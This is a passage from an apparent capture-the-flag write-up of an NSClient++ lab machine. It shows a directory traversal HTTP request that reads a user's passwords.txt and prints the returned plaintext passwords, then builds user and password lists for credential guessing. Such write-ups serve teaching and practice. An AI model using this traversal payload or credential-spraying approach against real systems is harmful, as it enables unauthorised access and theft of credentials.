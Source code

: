 It’s a local privesc because with a shell on the box, I can get the admin plaintext password from the config files, and then login and create a job to get a shell. I’ll keep this in mind.

## Shell as nadine

### Get Passwords

I first tried to read the NSClient++ config file using the directory traversal vulnerability, but it didn’t work.

I know from the FTP note that there is a file with passwords at `C:\users\nathan\desktop\passwords.txt`. I’ll use the directory traversal vulnerability to try to read that file, and it works:

```

GET /../../../../../../../../../../../../users/nathan/desktop/passwords.txt HTTP/1.1
Host: 10.10.10.184
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: dataPort=6063
Upgrade-Insecure-Requests: 1

```

Returns:

```

HTTP/1.1 200 OK
Content-type: text/plain
Content-Length: 156
Connection: close
AuthInfo: 

1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$

```

### Check Passwords

Since I only have a list of passwords without usernames, I’ll create a list of what I know now:

```

root@kali# cat users 
administrator
nathan
nadine
root@kali# cat passwords 
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$

```